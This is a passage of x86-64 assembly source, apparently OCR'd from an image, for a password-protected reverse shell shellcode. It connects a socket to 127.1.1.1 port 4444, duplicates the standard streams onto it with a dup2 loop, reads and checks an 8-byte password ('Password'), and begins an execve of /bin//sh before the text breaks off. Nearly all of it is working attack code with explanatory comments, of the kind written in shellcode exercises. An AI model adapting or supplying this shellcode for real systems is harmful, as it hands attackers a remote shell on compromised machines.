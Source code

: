 ```nasm
	
	syscall		; exec socket syscall

	mov rdi, rax	; move sockfd (file descriptor) value into rdi

	; connect
	xor rax, rax
	push rax

	mov dword [rsp - 4], 0x0101017f		; connect to localhost (127.1.1.1) (little endian)

	mov word [rsp - 6], 0x5c11		; connect to port 4444 (little endian)

	mov byte [rsp - 8], 0x2			; AF_INET constant
	
	sub rsp, 8				; rsp points at the top of the stack
	
	add al, 0x2a	; 2a is the hex value of the decimal 42 for connect
	
	mov rsi, rsp	; rsi now points at address struct at the top of the stack
	
	xor rdx, rdx
	add rdx, 0x10	; 10 is the decimal 16 that is the size of the address struct

	syscall		; exec connect syscall

	; dup2
	xor rsi, rsi
	add rsi, 0x3	; set counter to 3

dup2loop:
	xor rax, rax	
	add al, 0x21	; 21 is the hex value of the decimal 33 for dup2

	dec rsi		; decrement counter by 1
	
	syscall		; exec dup2 syscall

	jnz dup2loop	; jump to loop if ZF is not zero, else continue

	; read
	xor rax, rax	; 0 for read syscall

	mov rsi, rsp

	xor rdx, rdx
	add dl, 8	; read size

	syscall		; exec read syscall

	mov rdi, rsp			; password in buffer

	mov rax, 0x64726f7773736150	; "drowssaP"

	scasq				; compare string in buffer with passcode
	jnz exit			; if they don't match jmp to exit

	; execve
	xor rax, rax
	push rax

	mov rbx, 0x68732f2f6e69622f	; "hs//nib/"
	push rbx
```